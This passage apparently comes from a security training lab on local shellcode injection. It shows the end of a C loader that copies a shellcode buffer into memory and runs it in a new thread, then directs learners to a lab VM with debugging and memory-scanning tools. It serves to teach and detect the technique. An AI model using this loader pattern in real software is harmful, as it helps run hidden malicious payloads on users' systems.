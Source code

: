 ```c
    }

    printf("Press any key to copy shellcode . . .\n");

    getchar();

    if(!RtlMoveMemory(lpAlloc, shellcode, sizeof(shellcode))) {
        printf("Shellcode copied\n");
        return 1;
    }

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)lpAlloc, NULL, 0, NULL);

    if (hThread == NULL) {
        printf("CreateThread failed\n");
        return 1;
    }

    DWORD tid = GetThreadId(hThread);
    printf("[!] Local thread created with TID: %lu\n", tid);
    printf("[!] Local thread start address: 0x%p\n", lpAlloc);
    printf("[+] Shellcode injected successfully.\n");

    WaitForSingleObject(hThread, INFINITE);

    return 0;
}

```

Let's navigate to the bottom of this section and click on " `Click here to spawn the target system!`". Then, let's RDP into the Target IP using the provided credentials. The vast majority of the actions/commands covered from this point up to end of this section can be replicated inside the target, offering a more comprehensive grasp of the topics presented.

Within the target (VM), we can locate the samples and tools at the following paths:

- **x64dbg**: `C:\injection\tools\x64dbg\release\x64\x64dbg.exe`
- **ProcessHacker**: `C:\injection\tools\ProcessHacker\ProcessHacker.exe`
- **Moneta**: `C:\injection\tools\Moneta64.exe`
- **PE Sieve**: `C:\injection\tools\pe-sieve64.exe`
- **Local Injection**: `C:\injection\local\local_shellcode_inj.exe`

* * *

